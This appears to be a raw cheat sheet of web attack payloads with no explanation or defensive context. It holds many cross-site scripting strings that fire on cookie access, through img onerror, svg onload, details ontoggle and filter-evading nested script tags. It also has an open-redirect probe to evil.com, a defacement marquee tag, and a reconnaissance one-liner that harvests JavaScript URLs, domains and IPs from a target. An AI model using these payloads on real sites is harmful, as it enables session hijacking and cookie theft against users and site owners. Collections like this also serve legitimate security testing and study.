 "><Img Src=OnXSS OnError=alert(document.cookie)>
<a onmouseover='alert(document.cookie)'>click me</a>
waybackurls target | grep '\.js$' | awk -F '?' '{print $1}' | sort -u | xargs -I{} bash -c 'echo -e "\ntarget : {}\n" && python lazyegg.py "{}" --js_urls --domains --ips'
<a href="https://evil.com/" rel="nofollow">link text</a>
////evil%E3%80%82com
<a+HREF="%26%237 javascrip%26%239t: alert%261par;document .domain) *>
<details x=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:2 open ontoggle="prompt(document.cookie);">
';alert(document.cookie);//
<script>alert(1);</script>
'><img%20src%3D%22https://i.ibb.co/3SKZjXR/D3rk.png%22>
<img src="onmouseover="alert('xxs')"" style="max-width: 100%;">
getPreprint.php?File=oxcal.html
<scr<script>ipt>alert(1)</script>
</title><marquee><font color=lime size=32>x01-dz</font></marquee>
"><script>alert(1);</script>
"><svg/onload=confirm('/Xss/')>
<svg/onload=confirm('/Xss/')>
